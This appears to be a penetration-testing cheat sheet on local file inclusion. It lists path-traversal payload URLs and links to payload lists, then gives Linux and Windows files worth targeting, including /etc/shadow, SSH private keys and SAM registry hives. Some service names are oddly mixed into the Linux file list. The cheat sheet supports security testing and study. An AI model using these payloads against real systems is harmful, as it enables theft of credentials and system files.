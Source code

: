 Examples:
- http://example.com/index.php?page=etc/passwd
- http://example.com/index.php?page=etc/passwd
- http://example.com/index.php?page=../../etc/passwd
- http://example.com/index.php?page=%2e%2e%2f
- http://example.com/index.php?page=....//....//etc/passwd

## Resources:
- https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf
- LFI List from Ippsec: https://github.com/MrW0l05zyn/pentesting/blob/master/web/payloads/lfi-rfi/lfi-linux-list.txt
- https://web.archive.org/web/20210922221042/https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/

## Interesting Files:

### Linux:
- /etc/passwd
- /etc/shadow
- /etc/issue
- /etc/group
- /etc/hostname
- /etc/ssh/ssh_config
- /etc/ssh/sshd_config
- /root/.ssh/id_rsa
- /root/.ssh/authorized_keys
- /home/user/.ssh/authorized_keys
- /home/user/.ssh/id_rsa
- /etc/apache2/apache2.conf
- /etc/apache2/.htpasswd
- /usr/local/etc/apache2/httpd.conf
- /etc/httpd/conf/httpd.conf
- /home/[user]/.bash_history
- ...don't forget about /var/www/html/...
- pyftpdlib
- exim smtpd
- apache
- squid http proxy
- PHP cli server 5.5 or later (PHP 7.3.14-1)
- FreeFloat ftpd 1.00

### Windows:
- /boot.ini
- /autoexec.bat
- /windows/system32/drivers/etc/hosts
- /windows/repair/SAM
- /windows/system32/eula.txt
- /windows/repair/SAM
- /windows/system32/config/regback/default
- /windows/system32/config/regback/sam
- /windows/system32/config/regback/security
- /windows/system32/config/regback/system
- /windows/system32/config/regback/software
- /windows/panther/unattended.xml
- /windows/panther/unattend/unattended.xml
